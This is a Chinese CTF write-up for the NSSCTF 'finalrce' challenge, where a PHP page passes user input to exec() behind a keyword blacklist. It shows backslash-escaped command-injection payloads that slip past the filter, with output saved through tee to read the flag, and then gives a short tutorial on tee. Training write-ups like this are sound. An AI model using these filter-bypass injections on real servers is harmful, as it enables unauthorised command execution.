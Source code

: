 ### NSSCTF -[SWPUCTF 2021 新生赛]finalrce

---

题目如下，看了一下是无回显的形式

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

发现屏蔽了很多

```
http://node4.anna.nssctf.cn:28417/?url=l\s / |tee 1.txt
```



![image-20240909232627700](https://gitee.com/bx33661/image/raw/master/path/image-20240909232627700.png)

```
http://node4.anna.nssctf.cn:28417/?url=ta\c /flllll\aaaaaaggggggg |tee 2.txt
```

![image-20240909232603677](https://gitee.com/bx33661/image/raw/master/path/image-20240909232603677.png)



`tee`

> `tee` 是 Linux 中的一个命令，常用于将命令的输出**同时**发送到多个目标。它的基本功能是**读取标准输入**，然后将内容**写入标准输出**以及**一个或多个文件**。这样，你既可以在终端中查看输出，又能将输出保存到文件中。

基本语法

```bash
command | tee [OPTION]... [FILE]...
```

- `command`：要执行的命令
- `[OPTION]`：可选参数
- `[FILE]...`：输出要保存到的文件

常见选项

- `-a` (`--append`)：追加到文件的末尾，而不是覆盖文件。
- `-i` (`--ignore-interrupts`)：忽略中断信号。

示例

1. **将命令输出同时写入文件和屏幕**

   ```bash
   ls -l | tee output.txt
   ```

   这个命令会列出当前目录的文件，并将输出显示在屏幕上，同时保存到 `output.txt` 文件中。

2. **追加模式**

   ```bash
   ls -l | tee -a output.txt
   ```

   这会将 `ls -l` 的输出追加到 `output.txt`，而不会覆盖之前的内容。

3. **在管道中使用 tee**

   ```bash
   cat file.txt | tee output.txt | grep "pattern"
   ```

   这会将 `file.txt` 的内容输出到 `output.txt`，并继续将内容通过管道传递给 `grep` 命令进行匹配。

总结

`tee` 命令非常适合在不丢失输出内容的情况下，将数据保存到文件中。它在日志记录、调试、或处理复杂的管道时非常有用。

简单题目：
1. 
[SWPUCTF 2021 新生赛]finalrce
https://www.nssctf.cn/problem/438
2. 
https://www.nssctf.cn/problem/425
Babyrce
